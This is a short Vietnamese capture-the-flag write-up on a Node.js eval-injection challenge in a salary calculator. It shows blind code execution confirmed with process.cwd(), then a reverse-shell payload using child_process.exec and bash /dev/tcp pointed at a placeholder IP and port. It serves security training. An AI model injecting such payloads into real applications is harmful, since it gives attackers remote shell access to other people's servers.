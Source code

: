 # Node - Eval (Medium - 30 pts)

Ở challenge này chúng ta sẽ nhập vào tổng tiền lương, sau đó nhập vào các phí sinh hoạt chẳng hạn, sau đó chương trình sẽ thực hiện tính toán để show ra giá trị tiền còn lại (lấy lương trừ cho tiền phí sinh hoạt)

Quá rõ ràng bài này khai thác dựa trên hàm eval nên phép toán ở phía server có thể là:

```
eval("lương") - eval("phí sinh hoạt")...
```
Hoặc

```
eval("lương - phí sinh hoạt")
```

Mình sẽ sử dụng `process.cwd()` để xem directory hiện tại:

Kết quả nhận được sẽ là "NaN" có nghĩa là kết quả của trả về sẽ được xem là một dạng dữ liệu là number nhưng không xác định (vì process.cwd() cho kết quả dạng chuỗi string). Điều này chứng tỏ chúng ta không thể xem kết quả trực tiếp được.

Nhưng dù không xem được kết quả nhưng chúng ta đã biết được là câu lệnh mà chúng ta sử dụng đã hoạt động. 

Nên ý tưởng của mình là sẽ sử dụng reverse shell trong trường hợp này.

```
require("child_process").exec('bash -c "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1"')
```

![image](https://user-images.githubusercontent.com/83667873/153466319-7f79f850-91a2-45ad-aa0d-2113027ce44e.png)
